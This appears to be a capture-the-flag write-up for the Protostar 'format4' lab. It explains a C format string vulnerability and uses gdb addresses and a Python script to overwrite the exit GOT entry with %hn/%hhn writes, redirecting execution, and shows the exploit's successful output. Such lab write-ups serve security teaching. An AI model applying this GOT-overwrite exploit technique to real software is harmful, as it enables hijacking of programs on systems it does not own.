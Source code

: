 Our goal is to solve this explotation challenge <i> [format4](https://exploit.education/protostar/format-four/)</i>


# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}

```
## Problem of code

This is a Format string exploit challenge .
The code passes a string to printf with wrong format.

If the user passes as argv[1] a string like "%x %x %x %x %x" he can read 5 words from the stack 


```c
	#https://owasp.org/www-community/attacks/Format_string_attack

	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);

```

Our goal will be to change the entry of exit function  in global offset table by using %n arguement in vuln-printf.
We want to redirect exit to the function Hello.



We will use gdb to find relevant addresses.

Address of Hello fucntion:

```c
(gdb) disassemble hello
Dump of assembler code for function hello:
0x080484b4 <hello+0>:   push   %ebp
0x080484b5 <hello+1>:   mov    %esp,%ebp

```
Address of exit:

```c
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:    push   %ebp
0x080484d3 <vuln+1>:    mov    %esp,%ebp
0x080484d5 <vuln+3>:    sub    $0x218,%esp
0x080484db <vuln+9>:    mov    0x8049730,%eax
0x080484e0 <vuln+14>:   mov    %eax,0x8(%esp)
0x080484e4 <vuln+18>:   movl   $0x200,0x4(%esp)
0x080484ec <vuln+26>:   lea    -0x208(%ebp),%eax
0x080484f2 <vuln+32>:   mov    %eax,(%esp)
0x080484f5 <vuln+35>:   call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:   lea    -0x208(%ebp),%eax
0x08048500 <vuln+46>:   mov    %eax,(%esp)
0x08048503 <vuln+49>:   call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:   movl   $0x1,(%esp)
0x0804850f <vuln+61>:   call   0x80483ec <exit@plt>

disassemble 0x80483ec
Dump of assembler code for function exit@plt:
0x080483ec <exit@plt+0>:        jmp    *0x8049724
0x080483f2 <exit@plt+6>:        push   $0x30
0x080483f7 <exit@plt+11>:       jmp    0x804837c
End of assembler dump.

(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080483f2


```
We want to change the address located in 0x8049724, with the address of hello

```
(gdb) x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:   0x080484b4

```


And then with this python code we will do the final explotation

```python
import struct

HELLO_ADDR = struct.pack("I",0x080484b4)

OFFSET = "TTTT"

EXIT_GOT_ADDR = struct.pack("I", 0x8049724)
EXIT_GOT_2_ADDR = struct.pack("I", 0x8049724+1)
EXIT_GOT_3_ADDR = struct.pack("I", 0x8049724+2)
EXIT_GOT_4_ADDR = struct.pack("I", 0x8049724+3)

#we make printf print 33950 characters so the next %n will give the wanted value to EXIT_GOT


#Use any of these 2 exploit strings
#exploit = EXIT_GOT_3_ADDR + EXIT_GOT_ADDR + "%x %x %2030x %hn %31918x %5$hn"
exploit = EXIT_GOT_2_ADDR + EXIT_GOT_ADDR + "%x %x %110x %hhn %46x %5$hhn"

# %hhn means printf will write 1 bytes instead of 4
# %hn means printf will write 2 bytes instead of 4


print exploit
```


```
user@protostar:~$ python /tmp/format.py | /opt/protostar/bin/format4
%$200 b7fd8420                                                                                                       bffff504                                         8049724 
code execution redirected! you win
```
